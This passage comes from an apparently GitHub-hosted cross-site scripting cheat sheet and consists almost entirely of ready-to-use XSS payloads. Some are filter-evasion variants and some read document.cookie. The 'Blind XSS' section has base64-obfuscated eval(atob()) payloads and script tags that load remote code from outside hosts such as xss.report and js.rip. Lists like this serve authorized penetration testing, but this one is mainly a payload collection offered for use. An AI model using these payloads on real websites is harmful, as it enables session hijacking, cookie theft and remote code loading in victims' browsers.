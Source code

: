 ```html
<svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=%26>
-------------------------------------------------
```

#### 4) Inject JS code

* h0tak88r XSS

```html
 "'-->aaaaa<h1 onclick=alert(1)>h0tak88r
"'--><h1 onmouseover="alert(88)" style="color: red;">h0tak88r</h1> 
"'--><input/onauxclick="[1].map(prompt)">
'"()&%<zzz><ScRiPt >alert('88')</ScRiPt>&
<img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
'"--><Body onbeforescriptexecute="[1].map(confirm)">
''"--><img src=x onODYSsyi=1 onerror=alert(document.cookie)>
'`><\x00img src=xxx:x onerror=javascript:alert(1)> 
"><button popovertarget=x>Click me</button> <input type="hidden" value="y" popover id=x onbeforetoggle=alert(document.cookie)>
script><svg/onload=prompt`{document.cookie}`>
```

* Blind XSS Get your blind XSS payloads from https://xss.report/ OR https://xsshunter.trufflesecurity.com/app/#/

```html
"><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Ii8veHNzLnJlcG9ydC9zL004U1pUOCI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs&#61; onerror=eval(atob(this.id))>
'"><script src=//xss.report/s/M8SZT8></script>
  "><script src="https://js.rip/l5j9hbki0b"></script>
  "><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8vanMucmlwL2w1ajloYmtpMGIiO2RvY3VtZW50LmJvZHkuYXBwZW5kQ2hpbGQoYSk7 onerror=eval(atob(this.id))>
```

### Payload list

````html
# karem Payloads
'"><script>alert('karem')</script> 
'"><img src=1 onerror="alert('Karem')">
'"><img src=1 onkarem=1 onerror="alert('Karem')"> 
<script/src=//6a%2elv></script> 
'"></script><script>alert(document.cookie)</script> 
%27"accesskey="x" onclick="alert(document.cookie)" x=" 
"><u>XSS Vulnerability</u><marquee+onstart='alert(document.cookie)'>XSS 
<details/open=/open/href=/data=;+ontoggle="(alert)(document.cookie)> 
"><iframe/src=javascript:alert%26%23x000000028%3b)> 
%22%3E%3Ciframe/src%3Djavascript%3Aalert%2526%2523x000000028%253b%29%3E%0A 
<svg onload=prompt%26%230000000040document.domain)> 
"'--<h1 onmouseover="alert('karem')" style="color: red;">karem</h1> 
"><button%20popovertarget=x>Click%20me</button>%20<input%20type="hidden"%20value="y"%20popover%20id=x%20onbeforetoggle=alert(document.cookie)> 
"><a href="javascript:alert('xss')">clickme</a>
<svg onload=prompt%26%230000000040document.domain)> 
'"><script>alert('karem')</script>@gmail.com 
%0Dalert`1`// 
"<script>alert</script>"@gmail.com 
"><img src=1 OnErRoR=alert('xss')> 
'"><script src=https://xss.report/c/karemelsqary74></script> 
"><svg/onload=alert.bind()(document.domain)> 
'`><\x00img src=xxx:x onerror=javascript:alert(1)> 
'"><<Svg/Only=1/OnLoad=confirm(atob("Q2xvdWRmbGFyZSBCeXBhc3NlZCA6KQ=="))>

# h0tak88r
````